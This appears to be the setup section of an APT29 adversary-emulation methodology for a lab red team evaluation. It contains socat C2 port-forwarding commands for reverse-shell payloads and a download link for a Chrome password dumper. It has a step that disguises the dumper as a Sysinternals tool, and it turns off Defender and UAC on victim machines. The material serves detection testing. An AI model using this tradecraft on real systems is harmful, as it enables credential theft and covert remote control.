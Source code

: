This methodology assumes the following static IP address configurations:

| Red Team System | IP Address |
| ------ | ------ |
| Attack Platform | 192.168.0.4 |
| Redirector | 192.168.0.5 | 

### A note about red team payloads

This evaluation utilizes four payloads that model APT29 malware.

The payloads are customized variants of reverse shells from Pupy RAT and Metasploit.

Pre-compiled payloads are available in the `payloads` directory; however, they are configured to connect back to static IP addresses 192.168.0.5 and 192.168.0.4.

If you would like to build the payloads yourself, please see `payload_configs.md` for further instructions.

### Setup Redirector: 192.168.0.5 (or the value used for the Redirector IP)

From the redirector system, setup port forwarding using Socat 

```
sudo socat TCP-LISTEN:443,fork TCP:192.168.0.4:443 & sudo socat TCP-LISTEN:1234,fork TCP:192.168.0.4:1234 & sudo socat TCP-LISTEN:8443,fork TCP:192.168.0.4:8443 &
```

### Setup Attack Platform: 192.168.0.4

1. Download Chrome password dumper tool from: https://github.com/adnan-alhomssi/chrome-passwords/raw/master/bin/chrome-passwords.exe
2. Download SysInternals zip folder from: https://download.sysinternals.com/files/SysinternalsSuite.zip
3. Unzip `SysinternalsSuite.zip`; copy the following files into the SysInternalsSuite directory:
    *  `readme.txt`
    *  `psversion.txt`
    *  `psversion.txt`
    *  `chrome-passwords.exe` (renamed as `accessChk.exe`)
    *  `strings64.exe` (compiled from `hostui.cpp`)
4. Zip modified SysinternalsSuite folder
5. Install Pupy and Metasploit on Attack Platform by running `install_day1_tools.sh`
6. Start Pupy docker container then the EC4 listener
    1. `sudo pupy/start-compose.sh`
    2. `listen -a ec4 `

## Victim Setup

### For each of the 2 victim workstations:
1. Login in as user with administrator privileges
2. Ensure Windows Defender is off or configured to alert-only 
3. Set UAC to never notify (https://articulate.com/support/article/how-to-turn-user-account-control-on-or-off-in-windows-10)
4. Verify user has read/write/execute permissions in the C:\Windows\Temp directory
5. Install Google Chrome (https://www.google.com/chrome/); cache credentials in Chrome password manager
6. Import-PFX certificate found in `payloads/shockwave.local.pfx`, instructions below
